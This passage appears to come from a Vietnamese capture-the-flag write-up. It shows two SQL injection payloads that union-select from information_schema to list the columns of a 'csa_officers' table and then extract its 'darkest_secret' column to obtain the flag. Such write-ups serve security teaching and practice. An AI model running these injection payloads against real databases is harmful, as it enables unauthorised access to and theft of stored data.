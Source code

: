 - `1" union select null,null,null,column_name FROM information_schema.columns WHERE table_name = "csa_officers" -- -` --> Liệt kê các cột trong `csa_officers` --> cột `darkest_secret` "Bí mật đen thui"??

<img src="img/tables.png">

- `1" union select null,null,null,darkest_secret FROM csa_officers -- -` --> Trích xuất dữ liệu trong `darkest_secret` --> Get FLAG!!!
